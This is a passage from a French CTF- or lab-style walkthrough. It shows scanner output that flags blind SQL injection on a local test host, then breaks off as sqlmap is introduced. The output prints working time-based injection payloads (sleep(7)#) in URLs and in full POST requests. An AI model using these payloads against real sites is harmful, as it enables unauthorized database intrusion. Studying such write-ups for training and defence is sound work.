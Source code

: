 ```plain
Faille d'injection SQL en aveugle dans http://192.168.1.95/index.php via une injection dans le paramètre action
  Evil url: http://192.168.1.95/index.php?action=sleep%287%29%231
Faille d'injection SQL en aveugle dans http://192.168.1.95/index.php via une injection dans le paramètre id
  Evil url: http://192.168.1.95/index.php?id=sleep%287%29%231
Faille d'injection SQL en aveugle dans http://192.168.1.95/?action=sleep%287%29%231 via une injection dans le paramètre action
Evil request:
POST /?action=sleep%287%29%231 HTTP/1.1
Host: 192.168.1.95
Referer: http://192.168.1.95/?action=login
Content-Type: application/x-www-form-urlencoded

username=default&password=letmein

Faille d'injection SQL en aveugle dans http://192.168.1.95/?action=login via une injection dans le paramètre password
Evil request:
POST /?action=login HTTP/1.1
Host: 192.168.1.95
Referer: http://192.168.1.95/?action=login
Content-Type: application/x-www-form-urlencoded

username=default&password=sleep%287%29%231

Faille d'injection SQL en aveugle dans http://192.168.1.95/index.php?action=sleep%287%29%231 via une injection dans le paramètre action
Evil request:
POST /index.php?action=sleep%287%29%231 HTTP/1.1
Host: 192.168.1.95
Referer: http://192.168.1.95/index.php?action=login
Content-Type: application/x-www-form-urlencoded

username=default&password=letmein

Faille d'injection SQL en aveugle dans http://192.168.1.95/index.php?action=login via une injection dans le paramètre password
Evil request:
POST /index.php?action=login HTTP/1.1
Host: 192.168.1.95
Referer: http://192.168.1.95/index.php?action=login
Content-Type: application/x-www-form-urlencoded

username=default&password=sleep%287%29%231
```

Puis vint l'attaque
-------------------

On "fire up" un sqlmap comme d'habitude. Ce dernier nous permet de récupérer les informations suivantes concernant les pages faites-maison :  
